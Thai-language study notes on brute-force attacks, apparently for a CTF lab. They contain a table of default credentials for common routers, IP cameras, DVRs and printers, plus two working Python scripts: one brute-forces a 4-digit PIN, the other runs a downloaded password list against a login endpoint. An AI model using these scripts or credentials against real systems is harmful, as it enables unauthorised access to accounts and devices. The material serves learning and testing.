

**Brute-Forcing** คือ การสุ่มความเป็นไปได้ เช่น การสุ่มรหัสผ่าน การสุ่มชื่อผู้ใช้รวมไปถึงการสุ่มเพื่อถอดรหัสต่าง(hash)<br>ปัจจัยที่มีผลต่อความสำเร็จในการโจมตีแบบนี้ ได้แก่
- **ความซับซ้อน** -> การที่รหัสผ่านมีความยาวที่มาก มีการผสมระหว่างตัวอักษรเล็กและใหญ่รวมถึงตัวเลขและอักขรพิเศษ ทำให้ยากต่อการที่จะโจมตีสำเร็จ
- **พลังการประมวลผล** -> ในปัจจุบัน ฮาร์ดแวร์ได้พัฒนาไปไกลมาก มีพลังการคำนวนที่มากขึ้น ส่งผลให้เพิ่มโอกาสที่จะโจมตีสำเร็จมากขึ้น
- **การรักษาความปลอดภัย** -> อาจมีการเก็บรหัสผ่านและชื่อผู้ใช้โดยการ hash และหลีกเลี่ยงที่จะเก็บแบบ plain text รวมไปถึงการทำให้การโจมตีแบบนี้ทำได้ช้าลง ส่งผลผลให้ต้องใช้เวลานานมากขึ้นในการโจมตี


## Default Password 
[Top-Username-list.txt](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)

| **Device/Manufacturer** | **Default Username** | **Default Password** | **Device Type**              |
| ----------------------- | -------------------- | -------------------- | ---------------------------- |
| Linksys Router          | admin                | admin                | Wireless Router              |
| D-Link Router           | admin                | admin                | Wireless Router              |
| Netgear Router          | admin                | password             | Wireless Router              |
| TP-Link Router          | admin                | admin                | Wireless Router              |
| Cisco Router            | cisco                | cisco                | Network Router               |
| Asus Router             | admin                | admin                | Wireless Router              |
| Belkin Router           | admin                | password             | Wireless Router              |
| Zyxel Router            | admin                | 1234                 | Wireless Router              |
| Samsung SmartCam        | admin                | 4321                 | IP Camera                    |
| Hikvision DVR           | admin                | 12345                | Digital Video Recorder (DVR) |
| Axis IP Camera          | root                 | pass                 | IP Camera                    |
| Ubiquiti UniFi AP       | ubnt                 | ubnt                 | Wireless Access Point        |
| Canon Printer           | admin                | admin                | Network Printer              |
| Honeywell Thermostat    | admin                | 1234                 | Smart Thermostat             |
| Panasonic DVR           | admin                | 12345                | Digital Video Recorder (DVR) |
## ตัวอย่าง script ที่ใช้ brute-force 
### pin brute-force
```python
import requests

ip = "127.0.0.1" # target IP
port = "8888" # target port

# try 4-digit PINs (0000 -> 9999)
for pin in range(10000):
	format_pin = f"{pin:04d}" # convert number e.g., pin=7 -> 0007
	print(f"Attempted PIN: {format_pin}")
	
	try:
		response = requests.get(f"http://{ip}:{port}/pin?pin={format_pin}")
		if response.ok:
			data = response.json()
				if "flag" in data:
					print(f"Found PIN: {format_pin}")
					print(f"Flag is: {data['flag']}")
					break
	except requests.exceptions.RequestException as e:
		print(f"Error: {e}")
```

### directory brute-force
```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

